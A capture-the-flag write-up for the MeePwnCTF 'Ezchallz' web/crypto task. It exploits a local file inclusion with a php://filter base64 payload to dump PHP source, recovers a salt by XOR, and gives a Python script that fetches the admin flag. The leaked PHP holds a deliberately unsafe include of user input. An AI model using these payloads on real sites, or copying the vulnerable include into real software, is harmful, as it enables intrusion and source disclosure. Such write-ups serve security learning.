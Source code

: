# Ezchallz (crypto/web, 60 solved, 100p)

In the task we get access to a webpage, where we could register, and we get redirected so a page with some fake flag.
First thing we notice is that registration link is `http://206.189.92.209/ezchallz/?page=register`

So we try some LFI there, and it works, we can do `http://206.189.92.209/ezchallz/?page=index` for example.
So it will include any `php` file.
Not very useful, since we don't have any, but there is another trick we can test here - PHP wrappers.
We place base64 encode wrapper: `http://206.189.92.209/ezchallz/?page=php://filter/read=convert.base64-encode/resource=index`
And we can recover the source code of the index and register files.

Index has just:

```php
<?php
if(isset($_GET["page"]) && !empty($_GET["page"])) {
    $page = $_GET["page"];
    if(strpos(strtolower($page), 'secret') !== false) {
        die('No no no!');
    }
//    else if(strpos($page, 'php') !== false) {
 //       die("N0 n0 n0!");
//    }
    else {
        include($page . '.php');
    }
}
?>
```

So we can get anything but `secret.php`.
Register has more interesting stuff:

```php
<?php
error_reporting(0);

function gendirandshowflag($username) {
	include('secret.php');
	$dname = "";
	$intro = "";
	$_username = md5($username, $raw_output = TRUE);
	for($i = 0; $i<strlen($salt); $i++) {
		$dname.= chr(ord($salt[$i]) ^ ord($_username[$i]));
	};
	$dname = "users/" . bin2hex($dname);
	echo 'You have successfully register as ' . $username . '!\n';
	if ($_username === hex2bin('21232f297a57a5a743894a0e4a801fc3')) {
		$intro = "Here is your flag:" . $flag;
	}
	else {
		$intro = "Here is your flag, but I'm not sure 🤔: \nMeePwnCTF{" . md5(random_bytes(16) . $username) . "}";
	}
	mkdir($dname);
	file_put_contents($dname . '/flag.php', $intro);
	header("Location: ". $dname . "/flag.php");
}

if (isset($_POST['username'])) {
	if ($_POST['username'] === 'admin') {
		die('Username is not allowed!');
	}
	else {
		gendirandshowflag($_POST['username']);
	}
}
?>
```

We can see that:

1. Directory name we get is constructed by XORing md5 of our username with some secret salt. 
2. If the md5 of username we provide matches some random bytes, we get message `Here is your flag:` with the real flag.

We can't really break this md5 of the special user, but since we can calculate md5 of our username, we can XOR this value with directory name we got to recover the salt.
Now we know both the salt and md5 of special user, so we can calculate the real flag directory:

```python
import hashlib
import requests
from crypto_commons.generic import xor_string


def main():
    username = "test"
    plain = hashlib.md5(username).digest()
    our_dir = "b8240bb93fb5c4321196ff675b7f98eb".decode("hex")
    salt = xor_string(our_dir, plain)
    admin = xor_string(hashlib.md5("admin").digest(), salt)
    admin_dir = admin.encode("hex")
    print((requests.get("http://206.189.92.209/ezchallz/users/%s/flag.php" % admin_dir)).text)


main()
```

And we get: `MeePwnCTF{just-a-warmup-challenge-are-you-ready-for-hacking-others-challz?}`
